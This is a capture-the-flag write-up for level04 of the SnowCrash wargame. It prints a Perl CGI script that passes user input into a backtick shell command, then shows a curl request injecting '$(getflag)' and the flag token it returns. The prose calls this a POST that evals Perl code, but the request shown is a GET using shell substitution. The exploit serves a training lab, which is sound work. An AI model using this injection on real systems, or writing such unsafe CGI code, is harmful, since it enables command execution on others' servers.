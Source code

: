 # level04

HTTP post requests, and a vulnerable Perl CGI script

For this level, we are greeted with an odd Perl script
```bash
level04@SnowCrash:~$ ls
level04.pl
level04@SnowCrash:~$ cat level04.pl
```
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

After some crawling through Perl Common Gateway Interface docs and fiddling, all we have to do is make a POST request defining `x` as whatever Perl code we want to eval.
```bash
level04@SnowCrash:~$ curl 'http://localhost:4747?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$ su level05
Password: ne2searoevaevoem4ov4ar8ap
level05@SnowCrash:~$ 
```
